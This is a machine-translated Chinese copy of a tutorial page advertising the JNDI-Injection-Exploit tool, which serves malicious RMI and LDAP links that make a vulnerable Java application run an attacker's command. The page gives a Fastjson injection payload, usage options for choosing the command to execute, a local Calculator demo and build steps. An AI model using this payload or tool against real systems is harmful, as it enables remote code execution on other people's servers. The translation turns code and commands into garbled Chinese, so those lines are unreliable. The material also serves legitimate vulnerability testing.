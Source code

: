 # JNDI 注入利用:一个工具，产生 JNDI 链接可以启动几个服务器

> 原文：<https://kalilinuxtutorials.com/jndi-injection-exploit/>

[![](img/4b32e1a2af0fde1613763b6ceba519dd.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEibchg98Zt_4QFlDcec_tny2jQcLcjCU9HLo94uCkaPcpFaE-DF9zYqX72N1WKE6yIkrnikxEgg7Oi_hJdpDWYyfV8IwpbGrBZv1rxz8JzhcPN0gf_BiXfKGvWW4OyF3yX2GLQIK6cs5W04ERNiGX_hOLxx8xMc8lZod4YRISmT6MReIg2kNFSJwWWs/s728/JNDI-Exploit-Kit%20(1).png)

**JNDI 注入利用**是一个通过启动 RMI 服务器、LDAP 服务器、HTTP 服务器来生成可工作的 JNDI 链接并提供后台服务的工具。RMI 服务器和 LDAP 服务器是基于封送处理的，并被进一步修改以与 HTTP 服务器链接。

使用这个工具可以让你获得 JNDI 链接，你可以将这些链接插入到你的 **POC** 中来测试漏洞。

例如，这是一个 Fastjson vul-poc:

**{ " @ type ":" com . sun . rowset . jdbcrowset impl "，" data source name ":" RMI://127 . 0 . 0 . 1:1099/Object "，" autoCommit":true}**

我们可以把“rmi://127.0.0.1:1099/Object”替换成 JNDI 注入利用产生的链接来测试漏洞。

## 使用

运行方式

**$ Java-jar JNDI-注入-利用-1.0-快照-全部. jar[-C][命令][-A][地址]**

其中:

*   **-C**–在远程类文件中执行的命令。(可选，默认命令是“打开/应用程序/计算器. app”)
*   **-A**-你的服务器地址，可能是 IP 地址或者域名。(可选，默认地址是第一个网络接口地址)

注意事项:

*   确保服务器的端口( **1099** 、 **1389** 、 **8180** )可用。或者您可以在运行中更改默认端口。ServerStart 类第 26~28 行。
*   您的命令被传递给 **Runtime.getRuntime()。exec()** 作为参数，所以你需要确保你的命令在方法 exec()中是可工作的。**bash 中的命令如“bash -c ….”需要加双引号。**

## 例子

本地演示:

*   像这样启动工具:

**$ Java-jar JNDI-注入-利用-1.0-快照-全部. jar -C "打开/应用程序/计算器. app" -A "127.0.0.1"**

*   假设我们将步骤 1 中生成的 rmi://ADDRESS/jfxllc 这样的 JNDI 链接注入到一个易受攻击的应用程序中，该应用程序可能会受到 JNDI 注入的攻击。

在本例中，它看起来像这样:

**public static void main(String[]args)抛出异常{
initial context CTX = new initial context()；
CTX . lookup(" RMI://127 . 0 . 0 . 1/FGF 4 FP ")；
}**

然后当我们运行这段代码时，命令将被执行，

日志将在 shell 中打印。

## 装置

我们可以从这两种方法中选择一种来得到这个罐子。

*   从 Release 下载最新的 jar。
*   将源代码克隆到本地并构建(需要 Java 1.8+和 Maven 3.x+)。

**$ git 克隆 https://github.com/welk1n/JNDI-Injection-Exploit.git**

**$ CD JNDI-注入-利用**

**$ mvn 干净包-DskipTests**

[**Download**](https://github.com/welk1n/JNDI-Injection-Exploit)